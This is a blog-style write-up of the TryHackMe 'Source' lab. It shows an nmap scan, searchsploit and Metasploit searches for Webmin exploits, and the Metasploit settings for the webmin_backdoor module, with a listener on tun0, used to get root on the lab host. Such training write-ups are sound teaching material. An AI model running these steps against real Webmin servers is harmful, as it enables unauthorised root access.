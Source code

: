```yaml
---
title: "TryHackMe - Source"
author: Nasrallah
description: ""
date: 2022-09-29 00:00:00 +0000
categories : [TryHackMe]
tags: [tryhackme, linux, easy, rce, webmin]
img_path: /assets/img/tryhackme/source
---
```


<div align="center"> <script src="https://tryhackme.com/badge/367641"></script> </div>

---


## **Description**

Hello hackers, I hope you are doing well. We are doing [Source](https://tryhackme.com/room/source) from [TryHackMe](https://tryhackme.com). The machine is running a vulnerable version of webmin giving us root access to the target.

## **Enumeration**

### nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.10.102.63
Host is up (0.094s latency).
Not shown: 998 closed tcp ports (reset)
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b7:4c:d0:bd:e2:7b:1b:15:72:27:64:56:29:15:ea:23 (RSA)
|   256 b7:85:23:11:4f:44:fa:22:00:8e:40:77:5e:cf:28:7c (ECDSA)
|_  256 a9:fe:4b:82:bf:89:34:59:36:5b:ec:da:c2:d3:95:ce (ED25519)
10000/tcp open  http    MiniServ 1.890 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We have two open ports, 22(ssh) and 10000(webmin)

### Web

Let's navigate to the web page at port 10000.

![](1.png)

We are advised to use SSL, so let's add https to the url.

![](2.png)

We webmin login page. I tried some default credentials but no luck.

## **Foothold**

Let's check for exploits in webmin using `searchsploit`.

```terminal
$ searchsploit webmin   
--------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                             |  Path
--------------------------------------------------------------------------------------------------------------------------- ---------------------------------
DansGuardian Webmin Module 0.x - 'edit.cgi' Directory Traversal                                                            | cgi/webapps/23535.txt
phpMyWebmin 1.0 - 'target' Remote File Inclusion                                                                           | php/webapps/2462.txt
phpMyWebmin 1.0 - 'window.php' Remote File Inclusion                                                                       | php/webapps/2451.txt
Webmin - Brute Force / Command Execution                                                                                   | multiple/remote/705.pl
webmin 0.91 - Directory Traversal                                                                                          | cgi/remote/21183.txt
Webmin 0.9x / Usermin 0.9x/1.0 - Access Session ID Spoofing                                                                | linux/remote/22275.pl
Webmin 0.x - 'RPC' Privilege Escalation                                                                                    | linux/remote/21765.pl
Webmin 0.x - Code Input Validation                                                                                         | linux/local/21348.txt
Webmin 1.5 - Brute Force / Command Execution                                                                               | multiple/remote/746.pl
Webmin 1.5 - Web Brute Force (CGI)                                                                                         | multiple/remote/745.pl
Webmin 1.580 - '/file/show.cgi' Remote Command Execution (Metasploit)                                                      | unix/remote/21851.rb
Webmin 1.850 - Multiple Vulnerabilities                                                                                    | cgi/webapps/42989.txt
Webmin 1.900 - Remote Command Execution (Metasploit)                                                                       | cgi/remote/46201.rb
Webmin 1.910 - 'Package Updates' Remote Command Execution (Metasploit)                                                     | linux/remote/46984.rb
Webmin 1.920 - Remote Code Execution                                                                                       | linux/webapps/47293.sh
Webmin 1.920 - Unauthenticated Remote Code Execution (Metasploit)                                                          | linux/remote/47230.rb
Webmin 1.962 - 'Package Updates' Escape Bypass RCE (Metasploit)                                                            | linux/webapps/49318.rb
Webmin 1.973 - 'run.cgi' Cross-Site Request Forgery (CSRF)                                                                 | linux/webapps/50144.py
Webmin 1.973 - 'save_user.cgi' Cross-Site Request Forgery (CSRF)                                                           | linux/webapps/50126.py
Webmin 1.984 - Remote Code Execution (Authenticated)                                                                       | linux/webapps/50809.py
Webmin 1.996 - Remote Code Execution (RCE) (Authenticated)                                                                 | linux/webapps/50998.py
Webmin 1.x - HTML Email Command Execution                                                                                  | cgi/webapps/24574.txt
Webmin < 1.290 / Usermin < 1.220 - Arbitrary File Disclosure                                                               | multiple/remote/1997.php
Webmin < 1.290 / Usermin < 1.220 - Arbitrary File Disclosure                                                               | multiple/remote/2017.pl
Webmin < 1.920 - 'rpc.cgi' Remote Code Execution (Metasploit)                                                              | linux/webapps/47330.rb
--------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

```

There are a lot of rce exploits, let's fire up metasploit and see what modules we can use.

```terminal
msf6 > search webmin                                                                                                                                         
                                                                              
Matching Modules                       
================                       
                                       
   #  Name                                           Disclosure Date  Rank       Check  Description
   -  ----                                           ---------------  ----       -----  -----------
   0  exploit/unix/webapp/webmin_show_cgi_exec       2012-09-06       excellent  Yes    Webmin /file/show.cgi Remote Command Execution
   1  auxiliary/admin/webmin/file_disclosure         2006-06-30       normal     No     Webmin File Disclosure
   2  exploit/linux/http/webmin_package_updates_rce  2022-07-26       excellent  Yes    Webmin Package Updates RCE
   3  exploit/linux/http/webmin_packageup_rce        2019-05-16       excellent  Yes    Webmin Package Updates Remote Command Execution
   4  exploit/unix/webapp/webmin_upload_exec         2019-01-17       excellent  Yes    Webmin Upload Authenticated RCE
   5  auxiliary/admin/webmin/edit_html_fileaccess    2012-09-06       normal     No     Webmin edit_html.cgi file Parameter Traversal Arbitrary File Access
   6  exploit/linux/http/webmin_backdoor             2019-08-10       excellent  Yes    Webmin password_change.cgi Backdoor

```

Let's use `exploit/linux/http/webmin_backdoor` module and set the following options:

```bash
use exploit/linux/http/webmin_backdoor

set rhost {target_IP}

set rport 10000

set lhost tun0

set ssl true
```

Now enter `exploit`.

![](3.png)

Great! We got access as root!

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).
